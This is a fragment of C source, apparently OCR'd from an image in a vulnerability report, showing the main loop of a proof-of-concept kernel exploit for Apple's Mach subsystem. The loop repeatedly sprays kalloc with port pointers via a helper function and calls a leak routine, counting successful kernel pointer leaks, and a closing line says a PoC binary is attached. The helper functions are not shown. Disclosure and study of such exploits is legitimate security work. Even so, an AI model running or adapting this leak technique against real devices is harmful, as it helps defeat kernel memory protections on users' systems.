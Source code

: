 ```
        }
    }
    
    return leak;
}

int main()
{
    int n_guesses = 0x1100;
    int leak_count = 0;
    
    for (int i = 1; i < n_guesses+1; i++) {
        printf("try id: %d\n", i);
        mach_port_t q = fill_kalloc_with_port_pointer(mach_task_self(), i, MACH_MSG_TYPE_COPY_SEND);
        mach_port_destroy(mach_task_self(), q);
        
        if (try_leak() == true)
            leak_count ++;
        
        if(leak_count > 5)
            break;
    }
    
    return 0;
}

```

PoC binary is also provided, see attched files.

